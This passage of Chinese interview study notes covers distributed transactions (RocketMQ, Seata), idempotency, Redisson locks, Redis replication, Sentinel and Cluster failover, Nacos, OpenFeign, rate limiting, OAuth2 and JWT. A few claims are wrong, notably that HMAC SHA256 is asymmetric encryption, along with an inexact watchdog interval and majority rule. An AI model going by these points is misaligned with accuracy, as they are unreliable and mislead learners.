   ​		rocketMQ是支持事务消息的，实现方式类似于二阶段提交，也就是说在业务方法内要向消息队列提交两次请求，一次发送消息，一次确认消息，如果确认消息发送失败了rocketMQ会定期扫描消息集群中的事务消息，此时发现了准备状态的消息会向消息发送者确认，所以生产方需要实现一个check接口，rocketMQ会根据发送端设置的策略来决定是回滚还是继续发送确认消息，这样就保证了消息发送与本地事务同时成功或失败。

   ​	（2）使用rabbitMQ的可靠性消息投递：

   ​		rabbitMQ中有可靠性消息投递能够保证生产者生成的消息一定能被消费者消费。生产者生产完消息后，mq会对接收到的消息进行应答。生产者对哪些没有应答的消息进行重试操作；当消费者消费完消息后也给mq做ack应答，当mq收到应答后才把这个消息删除；而mq里面可以做持久化操作防止消息的丢失。可以依据这个特性来手动实现事务的提交或回滚。

## **Seata的分布式事务的解决方案**

Seata是阿里开发的一个用于微服务架构的高性能易使用的分布式事务框架。分布式事务是由一批分支事务组成的全局事务，通常分支事务只是本地事务。Seata由3个基本组成部分：

- **事务协调器（TC）：**维护全局事务和分支事务的状态，驱动全局提交或回滚。
- **事务管理器（TM）：**用于开启全局事务、提交或者回滚全局事务，是全局事务的开启者，在调用服务的方法中用GlobalTransactional注解开启事务。
- **资源管理器（RM）：**用于分支事务上的资源管理，向TC注册分支事务，上报分支事务的状态，接受TC的命令来提交或者回滚分支事务。

Seata常用的有两种模式，AT以及TCC：

AT：Seata AT模式是基于XA事务演进而来的一个分布式事务中间件（XA是一个基于数据库实现的分布式事务协议，本质上和两阶段提交一样，需要数据库支持，Mysql5.6以上版本支持XA协议，其他数据库如Oracle，DB2也实现了XA接口），也分为了两个阶段：

​	第一阶段：Seata 的 JDBC 数据源代理通过对业务 SQL 的解析，把业务数据在更新前后的数据镜像组织成undoLog日志，利用本地事务的 ACID 特性，将业务数据的更新和回滚日志的写入在同一个本地事务中提交，这样，可以保证任何提交的业务数据的更新一定有相应的回滚日志存在，基于这样的机制，分支的本地事务便可以在全局事务的第一阶段提交，并马上释放本地事务锁定的资源。这也是AT和XA事务的不同之处，经典的2PC提交（XA）往往对资源的锁定需要持续到第二阶段实际的提交或者回滚操作。AT模式则可以在第一阶段释放对资源的锁定，降低了锁范围。

​	第二阶段：如果决议是**全局提交**，此时分支事务此时已经完成提交，不需要同步协调处理（只需要异步清理回滚日志），如果决议是**全局回滚**，RM 收到协调器发来的回滚请求，通过 XID 和 Branch ID 找到相应的回滚日志记录，**通过回滚记录生成反向的更新 SQL 并执行**，以完成分支的回滚。

TCC：Seata TCC模式跟通用的TCC模式原理一致，都是需要实现三个功能try、confirm、cancel；Seata 启动时会对 TCC 接口进行扫描并解析，如果 TCC 接口是一个发布方，则在 Seata 启动时会向 TC 注册 TCC Resource，每个 TCC Resource 都有一个资源 ID；如果 TCC 接口是一个调用方，Seata 代理调用方，与 AT 模式一样，代理会拦截 TCC 接口的调用，即每次调用 Try 方法，会向 TC 注册一个分支事务，接着才执行原来的方法；当全局事务决议提交/回滚时，TC 会通过分支注册的的资源 ID 回调到对应参与者服务中执行 TCC Resource 的 Confirm/Cancel 方法。

## **如何保证接口的幂等性。**

接口幂等性：我们的控制器接口对外公布服务，外界客户端在请求我们接口，不管请求几次，得到结果跟请求一次是一样的效果，这就是保证了接口幂等性。如果请求了多次，结果产生了问题就违反了接口幂等性。

1. 前端处理，用户点击按钮后，让按钮不能重复点击。
2.
可以使用token处理接口幂等性。我们在前端发请求之前会得到一个token（有服务器端生成的一个唯一标记交给客户端保存），前端发请求的时候可以带着token，我们在redis里面判断这个token是否存在，如果存在就不是第一次请求，如果不存在就是第一次请求。setNx()
不存在的时候放入，存在了就不放入。
3. 不是所有的方法都需要判断接口幂等性的，查询和删除都是天然满足接口幂等性的方法。不满足接口幂等性的方法，我们也会选择性的进行接口幂等性的判断。

## **如何使用redis实现分布式锁。**

redis有一个java连接redis的客户端工具叫Redisson。这个工具提供了相应的分布锁的获取办法。我们拿到锁后，就像使用本地锁一样使用它。面试官一定会追问底层实现原理。Redisson会在redis里面创建一个锁标记，就是一个key和value。所有的微服务都去拿这个锁标记，谁拿到谁运行。

1. 防止死锁问题，给锁增加一个有效时长。可以防止死锁。
2. 如何保证java操作redis时多个命令是一个原子操作，一块执行成功或者一块执行失败。我们可以使用java操作lua脚本实现多个redis命令是一个原子操作。
3. 如何解决有效时长内业务逻辑没有完成的问题。redisson底层使用了看门狗机制。看门狗就是在加完锁后，开启一个定时线程，每隔3秒往redis里面发送延期申请。因为主线程和看门狗线程在一台机器上运行，这样就可以避免死锁问题 。

## **如何保证缓存的一致性。**

1. 设置缓存有效期。（对数据一致性要求不高情况）
2. 做增删改的时候要通知redis做删除操作。（大部分情况可以做到一致。但是并发的情况可能会不一致，还得依托缓存有效期）
3. 延时双删。（能够解决并发问题，但是不能完全解决。）

mysql的数据和redis缓存中的数据，在多线程操作的时候有可能数据不一致。根据cap定理和base理论，我们可以采用延时双删模式解决这个问题。延时双删，就是指线程在修改mysql数据的时候同时删除一下redis，延迟0.1秒再删除一下redis。这样可以解决掉99%的不一致问题。剩下的1%交给redis里面的定时器。因为我们放入到redis的数据都会给一个有效时长。

## Redis的主从复制

​	Redis的主从复制模式为了保证系统的高可用将一台Redis服务器的数据，复制到其他的Redis服务器。前者称为主节点，后者称为从节点。数据的复制是单向的，只能由主节点到从节点。Master以写为主（基本不读），Slave读为主（禁止写），如果主机宕机时如果设置了哨兵模式将会自动确立新的主机，否则就需要手动切换。

​	1、slave启动成功并且链接master后，向master发送sync命令，请求数据同步；

​	2、master收到消息后会执行bgsave进行异步的生成RDB文件，将生成的RDB文件发送给slave；同时会将接收到的修改数据的命令记录到replication_buffer中一并发给slave；

​	3、slave清空内存数据加载RDB到内存中，等介绍到master的replication_buffer的内容后执行其中的指令，同步至master的当前状态。

## Redis的哨兵机制

​	Redis在使用主从复制模式的时候，是会出现主节点挂掉的问题，此时这个主从复制模式的Redis因为失去了主节点而导致无法写入的问题，需要手动切换主节点，但是为了实现自动切换就引入了哨兵机制。

​	哨兵其实就是一个运行在特殊模式下的Redis进程，其随着主从实例同时运行。其主要负责三个任务：

​	1、监控
​		哨兵在运行的时候，周期性地给所有的主从库发送PING命令，检测他们是否仍然在在线运行。如果从库没有在规定时间响应哨兵的PING命令，哨兵就会把从库标记为“下线状态”；同理，如果主库没有在规定时间响应哨兵的PING命令，哨兵就会判定主库下线，然后开始自动选主流程。

​	2、选主
​		哨兵就会从很多的从库里，按照一定的规则选择一个从库实例，把它作为新的主库。这一步完成之后，现在的集群里就又了新的主库。

​	3、通知
​		最后哨兵会把新的主库连接信息发送给其他从库，让他们执行replicaof命令，和新的主库连接，并进行数据的复制。同时，哨兵会把新主库的连接信息通知给客户端，让他们把请求发送到新主库上。

​	在Redis的哨兵监控机制中，有两个关键概念：主观下线（Subjective Down）和客观下线（Objective Down）。这些概念帮助哨兵判断节点的可用性和故障状态。

1. **主观下线（Subjective Down）：** 主观下线是指单个哨兵节点认为一个特定的Redis节点（主节点、从节点或其他哨兵）不可用。主观下线是一种主观的判断，是基于单个哨兵节点的观察结果得出的。当一个哨兵无法连接到某个Redis节点，它会将该节点标记为主观下线。多个哨兵节点可能会对同一个节点发出主观下线标记。
2. **客观下线（Objective Down）：** 客观下线是指在整个哨兵集合中达成一致，认为某个特定的Redis节点不可用。客观下线是一种更客观的判断，需要多个哨兵节点共同达成一致。当多个哨兵节点都主观下线同一个Redis节点时，这个节点会被认为是客观下线。

​	客观下线是一个更严格的判断，需要多个哨兵节点一致认为某个节点不可用，才会触发后续的故障判断和自动故障切换等动作。这种机制确保了在一个哨兵节点认为某节点下线时，不会立即触发故障切换，以避免误判造成不必要的切换。只有多个哨兵节点一致认为节点下线，才会触发后续的故障处理流程。

**如何选定新主库？**

​	在Redis Sentinel模式中，当主节点（Master）发生故障导致下线后，哨兵会通过选举过程选择一个新的主节点（Master）来取代原来的主节点。选定新主库的过程如下：

1. **主观下线和客观下线判断：** 当哨兵节点主观下线（单个哨兵认为不可用）一个主节点时，如果过半（大于哨兵数量的一半）的哨兵都主观下线了同一个主节点，那么这个主节点会被标记为客观下线（过半原则）。
2. **选举新主节点：** 当一个主节点被标记为客观下线后，哨兵节点会开始选举一个新的主节点。选举过程如下：
   - 哨兵会在所有没有下线的从节点（Slaves）中选择一个作为新主节点。**哨兵会选择一个延迟最小、复制偏移量最大的从节点作为新主节点**。这确保了新主节点是最接近原主节点的从节点。
   - 如果没有合适的从节点，哨兵会选择一个具备最高优先级的从节点，将其升级为主节点。如果优先级相同，那么哨兵会选择一个复制偏移量最大的从节点。
3. **故障转移和切换：** 一旦新主节点被选定，哨兵会发起故障转移操作。旧主节点会变成新主节点的一个从节点。其他从节点会重新配置，指向新的主节点。这个过程会保证尽量不丢失数据，并且保证整个集群的高可用性。

## Redis Cluster（Redis集群）

​	由于数据量过大，单个Master复制集难以承担，因此需要对多个复制集进行集群，形成水平扩展，每个复制集只负责存储整个数据集的一部分，这就是Redis的集群，其作用是提供在多个Redis节点间共享数据的程序集。

​	Redis集群支持多个master，每个master又可以挂载多个slave。由于Cluster自带Sentinel的故障转移机制，内置了高可用的支持，无需再去使用哨兵功能。客户端与Redis的节点连接，不再需要连接集群中所有的节点，只需要连接集群中的任意一个可用节点即可。插槽slot负责分配到各个物理服务节点，由对应的集群来负责维护节点、插槽和数据之间的关系。

**slot插槽**

​	Redis集群没有使用一致性hash，而是引入了哈希槽的概念。Redis集群共有16384个哈希槽默认将 16384 个槽位均分给不同的节点，每个节点负责处理一部分槽位，从而实现数据的分布式存储和访问，每个key通过CRC16校验后对16384取模来决定放置哪个槽。

**故障转移流程**

​	当一个从节点发现自己正在复制的主节点下线时，从节点将开始对下线主节点进行故障转移：

1. 在该下线主节点的所有从节点中，选择一个做主节点；
2. 被选中的从节点会执行SLAVEOF no one命令，成为新的主节点；
3. 新的主节点会撤销对所有对已下线主节点的槽指派，并将这些槽全部派给自己；
4. 新的主节点向集群广播一条消息，让其他节点知道“我已经变成主节点了，并且我会接管已下线节点负责的处理的槽”；
5. 新主节点开始接收和自己负责处理的槽有关的命令请求，故障转移完成；

**选举新节点流程**

1. 集群配置纪元是一个自增计数器，它的初始值为0；
2. 当集群里的某个节点开始一次故障转移时，集群配置纪元的值会被增加1
3. 对于每个配置纪元，集群里的每个负责处理槽的主节点都有一次投票的机会，而第一个向主节点要求投票的从节点将获得主节点的投票。
4. 当从节点发现自己正在复制的主节点进入已下线状态时，从节点会向集群广播消息：要求所有收到这条消息、并且具有投票权的主节点向这个从节点投票。
5. 如果一个主节点具有投票权，并且这个主节点尚未投票跟其它从节点，那么主节点将要求投票的从节点返回一条ACK消息，表示支持该从节点成为新的主节点。
6. 每个主节点只有一次投票机会，所有有N个主节点的话，那么具有大于N/2+1（过半原则）张支持票的从节点只有一个。
7. 如果在一个配置纪元里没有从节点能收集到足够多的支持票，那么集群进入一个新的配置纪元，并再次进行选举，直到选出新的主节点为止。

**故障检测**

​	集群中每个节点都会定期地向集群中的其他节点发送PING消息，以此检测对方是否在线；如果接收PING消息的节点没有在规定的时间内响应，那么发送PING消息的节点就会将其标记为疑似下线（possible fail，PFAIL）。

​	如果在集群中，超过半数以上（依然是过半原则）负责处理槽的主节点都将某个节点X标记为PFAIL，则某个主节点就会将这个主节点X就会被标记为已下线（FAIL），并且广播到这条消息，这样其他所有的节点都会立即将主节点X标记为FAIL。

## nacos 的工作原理

当各个微服务启动后，会自动到nacos的注册中心进行注册，注册中心会形成注册列表。该注册列表是动态更新的。每个微服务会每隔五秒做一次心跳检测。当注册中心超过15秒没有接受到微服务的心跳，先把该服务设置为非健康状态，当超过30秒没有收到心跳，把该服务设置为下线状态。注册列表中记录的是各个微服务的服务名和服务ip以及端口号信息。

## openFeign的工作原理&#x20;

当服务的调用者要调用服务的提供者时，我们需要在调用方定义提供方的接口。在该接口中我们定义了远程调用的服务名。在方法上面定义远程调用的路径。当我们要发起调用时，调用者会先从nacos注册中心获取注册列表，然后根据接口中的服务名，定位到可以调用那些服务。底层会利用负载均衡策略把请求分发到服务的提供者上面。

## 常见的限流算法

1. 基于固定窗口的限流。容易出现毛刺问题。
2. 基于滑动窗口的限流。不能均衡的利用资源，很多请求被拒绝
3. 漏桶算法。利用了削峰填谷解决了流量高峰问题。不能解决流量突发问题。
4. 令牌桶算法。可以尽大限度的利用服务，在流量突发的情况下可以达到极致。

## 各个组件的流量(QPS)参考能力

1. Nginx = 5W
2. Tomcat = 1K
3. MySQL = 2K
4. Redis = 5W
5. ES = 7W
6. RabbitMQ = 10W

## OAuth2授权协议

​	OAuth2（Open Authorization2）是一个关于授权（Authorization）的开放网络标准，允许用户授权第三方应用访问用户的授权信息，而不需要提供账号密码给第三方应用。

​	**OAuth2协议有三个基本概念：**

​	（1）Resource Owner：资源所有者，也就是"用户"。
​	（2）Authorization server：授权服务器，服务提供者专门用于处理认证授权的服务器。
​	（3）Resource server：资源服务器，服务提供者用于存储用户生成的资源的服务器。
​	（4）Client：客户端，代表向受保护资源进行请求的第三方应用程序。

​	**OAuth 2.0一共分成四种授权类型（authorization grant）：**

​		授权码模式（authorization code）：指的是第三方应用先申请一个授权码，然后再用该码获取令牌。

​		简化模式（implicit）：有些 Web 应用是纯前端应用，没有后端。必须将令牌储存在前端，允许直接向前端颁发令牌，这种方式省略了授权码这个中间步骤。

​		密码模式（resource owner password credentials）：客户端使用用户的用户名和密码进行申请令牌。

​		客户端模式（client credentials）：指客户端以自己的名义，而不是以用户的名义，向"服务提供商"进行授权。

​	授权码模式和密码模式比较常用。

​	**OAuth2的认证流程：**

1. 用户在第三方应用上点击登录，应用向授权服务器发送请求，说有用户希望进行授权操作，同时说明自己是谁、用户授权完成后的回调地址。
2. 授权服务器展示给用户自己的授权界面。
3. 用户进行授权操作，授权服务器验证成功后，生成一个授权码，并跳转到第三方的回调地址。
4. 第三方应用拿到授权码后，连同自己在平台上身份信息发送给认证服务器，再一次进行验证请求，说明自己的身份正确，并且用户也已经授权我了，来换取访问用户资源的权限。
5. 认证服务器对请求信息进行验证，如果没问题，就生成访问资源服务器的令牌，交给第三方应用。
6. 第三方应用使用令牌向资源服务器请求资源。
7. 资源服务器验证令牌成功后返回响应资源。

## JWT

​	JWT（JSON Web Token）是一种数据传输的规范，本质是一串字符串，可以将信息保存在一个json字串中，然后可以对这串信息进行签名用于后续校验数据是否被修改，**需要注意的是JWT的数据是未加密的，Base64只是一种编码格式，拿到JWT字符串后可以转换回原本的JSON数据，签名只是注重于数据未被篡改，所以不能再JWT中存放敏感信息。要求对传递数据进行加密的可以考虑JWE，JWE就是对Payload部分进行加密的JWT。**

​	JWT由三部分组成，标头(Header)、有效载荷(Payload)和签名(Signature)。在传输的时候，会将JWT的三部分分别进行Base64编码后用 “.” 进行连接拼接成最终传输的字符串。

​	1、Header：标头是一个描述JWT元数据的JSON对象，alg属性表示签名使用的算法，默认为HMAC SHA256（写为HS256）；typ属性表示令牌的类型，JWT令牌统一写为JWT。最后，使用Base64 URL算法将上述JSON对象转换为字符串保存。

```JSON
{
  "alg": "HS256",
  "typ": "JWT"
}
```

​	2、Payload：有效载荷是JWT的主体内容部分，也是一个JSON对象，包含需要传递的数据。 JWT指定七个默认字段供选择。

	iss：发行人
	exp：到期时间
	sub：主题
	aud：用户
	nbf：在此之前不可用
	iat：发布时间
	jti：JWT ID用于标识该JWT
​	这些预定义的字段并不要求强制使用。除以上默认字段外，我们还可以自定义私有字段，一般会把包含用户信息的数据放到payload中，如下例：

```JSON
{
  "sub": "1234567890",
  "name": "Helen",
  "admin": true
}
```

3、Signature：签名是对上面两部分数据签名，需要使用base64编码后的header和payload数据，通过指定的算法生成哈希，以确保数据不会被篡改。首先，需要指定一个密钥（secret）。该密码仅仅为保存在服务器中，并且不能向用户公开，然后，使用header中指定的签名算法（默认情况下为HMAC SHA256，并且属于不可逆加密或者叫非对称加密）生成签名。在计算出签名哈希后，标头，有效载荷和签名的三个部分组合成一个字符串，每个部分用 “.” 分隔，就构成整个JWT对象。
